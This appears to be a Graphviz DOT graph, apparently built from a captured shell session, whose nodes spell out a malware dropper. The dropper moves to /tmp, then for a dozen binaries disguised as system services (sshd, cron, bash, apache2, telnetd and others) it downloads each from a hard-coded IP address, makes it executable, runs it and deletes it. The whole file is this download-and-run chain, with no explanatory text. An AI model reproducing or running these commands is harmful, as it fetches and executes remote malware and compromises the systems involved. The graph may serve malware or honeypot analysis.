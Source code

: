 digraph {
120 [label="cd /tmp "];
120 -> 120
2 [label="wget http://163.172.104.150/ntpd "];
2 -> 4 [label=";,"];
4 [label="chmod +x ntpd "];
4 -> 6 [label=";,"];
6 [label="./ntpd "];
6 -> 8 [label=";,"];
8 [label="rm -rf ntpd "];
8 -> 120 [label=";,"];
120 [label="cd /tmp "];
120 -> 120
12 [label="wget http://163.172.104.150/sshd "];
12 -> 14 [label=";,"];
14 [label="chmod +x sshd "];
14 -> 16 [label=";,"];
16 [label="./sshd "];
16 -> 18 [label=";,"];
18 [label="rm -rf sshd "];
18 -> 120 [label=";,"];
120 [label="cd /tmp "];
120 -> 120
22 [label="wget http://163.172.104.150/openssh "];
22 -> 24 [label=";,"];
24 [label="chmod +x openssh "];
24 -> 26 [label=";,"];
26 [label="./openssh "];
26 -> 28 [label=";,"];
28 [label="rm -rf openssh "];
28 -> 120 [label=";,"];
120 [label="cd /tmp "];
120 -> 120
32 [label="wget http://163.172.104.150/bash "];
32 -> 34 [label=";,"];
34 [label="chmod +x bash "];
34 -> 36 [label=";,"];
36 [label="./bash "];
36 -> 38 [label=";,"];
38 [label="rm -rf bash "];
38 -> 120 [label=";,"];
120 [label="cd /tmp "];
120 -> 120
42 [label="wget http://163.172.104.150/tftp "];
42 -> 44 [label=";,"];
44 [label="chmod +x tftp "];
44 -> 46 [label=";,"];
46 [label="./tftp "];
46 -> 48 [label=";,"];
48 [label="rm -rf tftp "];
48 -> 120 [label=";,"];
120 [label="cd /tmp "];
120 -> 120
52 [label="wget http://163.172.104.150/wget "];
52 -> 54 [label=";,"];
54 [label="chmod +x wget "];
54 -> 56 [label=";,"];
56 [label="./wget "];
56 -> 58 [label=";,"];
58 [label="rm -rf wget "];
58 -> 120 [label=";,"];
120 [label="cd /tmp "];
120 -> 120
62 [label="wget http://163.172.104.150/cron "];
62 -> 64 [label=";,"];
64 [label="chmod +x cron "];
64 -> 66 [label=";,"];
66 [label="./cron "];
66 -> 68 [label=";,"];
68 [label="rm -rf cron "];
68 -> 120 [label=";,"];
120 [label="cd /tmp "];
120 -> 120
72 [label="wget http://163.172.104.150/ftp "];
72 -> 74 [label=";,"];
74 [label="chmod +x ftp "];
74 -> 76 [label=";,"];
76 [label="./ftp "];
76 -> 78 [label=";,"];
78 [label="rm -rf ftp "];
78 -> 120 [label=";,"];
120 [label="cd /tmp "];
120 -> 120
82 [label="wget http://163.172.104.150/pftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x pftp "];
84 -> 86 [label=";,"];
86 [label="./pftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf pftp "];
88 -> 120 [label=";,"];
120 [label="cd /tmp "];
120 -> 120
92 [label="wget http://163.172.104.150/sh "];
92 -> 94 [label=";,"];
94 [label="chmod +x sh "];
94 -> 96 [label=";,"];
96 [label="./sh "];
96 -> 98 [label=";,"];
98 [label="rm -rf sh "];
98 -> 120 [label=";,"];
120 [label="cd /tmp "];
120 -> 120
102 [label="wget http://163.172.104.150/  "];
102 -> 104 [label=";,"];
104 [label="chmod +x   "];
104 -> 106 [label=";,"];
106 [label="./  "];
106 -> 108 [label=";,"];
108 [label="rm -rf   "];
108 -> 120 [label=";,"];
120 [label="cd /tmp "];
120 -> 120
112 [label="wget http://163.172.104.150/apache2 "];
112 -> 114 [label=";,"];
114 [label="chmod +x apache2 "];
114 -> 116 [label=";,"];
116 [label="./apache2 "];
116 -> 118 [label=";,"];
118 [label="rm -rf apache2 "];
118 -> 120 [label=";,"];
120 [label="cd /tmp "];
120 -> 120
122 [label="wget http://163.172.104.150/telnetd "];
122 -> 124 [label=";,"];
124 [label="chmod +x telnetd "];
124 -> 126 [label=";,"];
126 [label="./telnetd "];
126 -> 127 [label=";,"];
}

